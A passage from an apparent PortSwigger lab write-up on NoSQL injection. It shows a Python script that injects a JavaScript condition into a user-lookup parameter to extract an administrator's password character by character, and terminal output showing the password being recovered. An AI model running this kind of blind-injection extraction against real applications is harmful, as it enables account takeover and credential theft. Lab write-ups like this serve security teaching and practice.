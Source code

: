 ```python
        print('[*] Logging in to the web application...')
        loginRespond = self.session.post(f'{self.baseUrl}{LOGIN_ENDPOINT}', data=loginData)
        if loginRespond.status_code == 400:
            print('[-] Login failed... Maybe the CSRF token is incorrect?')
            print(f'[-] Response text:\n{loginRespond.text}')
            exit(1)
        print('[+] Login successfully!')

    def extractData(self):
        USER_LOOKUP_ENDPOINT = '/user/lookup'
        USER_LOOK_PARAMETER = 'user'
        TARGET_USERNAME = 'administrator'
        LAST_CHARACTER = ascii_letters[-1]
        print(f'[*] Extracting {TARGET_USERNAME}\'s password...')
        password = ''
        stringPosition = 0
        while True:
            for character in ascii_letters:
                print(f'[*] Trying character "{character}"...', end='\r')
                payload = requests.utils.quote(f"{TARGET_USERNAME}' && this.password[{stringPosition}] == '{character}' || 'a'=='b")
                userLookupRespond = self.session.get(f'{self.baseUrl}{USER_LOOKUP_ENDPOINT}?{USER_LOOK_PARAMETER}={payload}')
                userLookupRespondJson = userLookupRespond.json()
                isLastCharacter = character == LAST_CHARACTER
                if 'message' in userLookupRespondJson:
                    if isLastCharacter:
                        print('[-] Looped all possible characters, no luck. Maybe we found all the password characters?')
                        print(f'[*] Password: {password}')
                        exit(1)
                    continue
                stringPosition += 1
                password += character
                print(f'[+] Found correct character "{character}". Current password: {password}')
                break

if __name__ == '__main__':
    baseUrl = 'https://0ade00e60326fdd58cade324003900c8.web-security-academy.net'
    exploit = Exploit(baseUrl)

    exploit.login()
    exploit.extractData()
```

This script will basically loop through all possible characters (including lower and upper case alphabet) to find the correct password.

**Output:**
```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/NoSQL-Injection/NoSQLi-3)-[2023.10.09|16:01:18(HKT)]
└> python3 extract_data.py
[*] Fetching the CSRF token...
[+] Fetched the CSRF token: yWGh7t8Bdtt2W5bpqn2F89M2quAV1wEn
[+] Session cookie: zRZ9yAEKQidKlpEOnFofw8wN2yPe4p7c
[*] Logging in to the web application...
[+] Login successfully!
[*] Extracting administrator's password...
[+] Found correct character "w". Current password: w
[+] Found correct character "n". Current password: wn
[+] Found correct character "o". Current password: wno
[+] Found correct character "u". Current password: wnou
[+] Found correct character "q". Current password: wnouq
[+] Found correct character "v". Current password: wnouqv
```